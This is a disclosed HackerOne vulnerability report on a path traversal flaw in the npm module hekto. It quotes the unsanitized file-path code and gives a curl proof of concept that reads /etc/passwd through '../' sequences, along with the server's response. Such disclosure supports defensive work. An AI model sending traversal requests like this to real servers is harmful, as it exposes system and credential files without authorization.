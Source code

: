 # [hekto] Path Traversal vulnerability allows to read content of arbitrary files

## Report Details
- **Report ID**: 311218
- **URL**: https://hackerone.com/reports/311218
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-31T23:18:19.644Z
- **Disclosed**: 2018-02-26T22:10:49.295Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal vulnerability in hekto module, which allows to read arbitrary file from the remote server.

## Module

**hekto**

This package exposes a directory and its children to create, read, update, and delete operations over http.

https://www.npmjs.com/package/hekto

version: 0.2.0

Stats
0 downloads in the last day
7 downloads in the last week
36 downloads in the last month

~420 estimated downloads per year


## Description

This vulnerability exists, because there is no sanitization of path of requested file. In line 80 (index.js) ```file``` is set:

```javascript
// node_modules/hekto/bin/hekto.js line 80:
    let file = path.join(process.cwd(), argDir, this.request.url);
```

Then, this variable is used "as is" in code which reads file from the server:

```javascript
// node_modules/hekto/bin/hekto.js line 126:

    // if `file` is a file
    if (fs.lstatSync(file).isFile()) {
        this.status = 200;

        if (path.extname(file) == '.html') {
            this.type = 'text/html';
            this.body = fs.createReadStream(file);
        } else if (path.extname(file) == '.css') {
            this.type = 'text/css';
            this.body = fs.createReadStream(file);
        } else {
            const fileBuffer = readChunk.sync(file, 0, 4100);
            const mime = fileType(fileBuffer);

            if (mime) {
                this.type = mime.mime + '; charset=utf-8';
            } else {
                this.type = 'text/plain; charset=utf-8';
            }

            this.body = fs.createReadStream(file);
        }
    }
```

## Steps To Reproduce:

- install ```hekto``` module

```
$ npm install hekto
```

- run server from command line:

```
$ ./node_modules/hekto/bin/hekto.js serve

Serving on port 3000

```

- use following command to confirm the vulnerability (pelase adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:3000/../../../../../etc/passwd
```

Result:

```
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 3000 (#0)
> GET /../../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:3000
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Vary: Accept-Encoding
< X-Powered-By: Hekto
< Content-Type: text/plain; charset=utf-8
< Date: Wed, 31 Jan 2018 23:08:42 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
(...)
```

## Supporting Material/References:

Configuration:

- macOS 10.13.3
- Chromium 66.0.3331.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.3
- npm version: 5.5.1
- curl 7.54.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability can be used to read content of any file from remote server where hekto is run.

## Attachments
No attachments
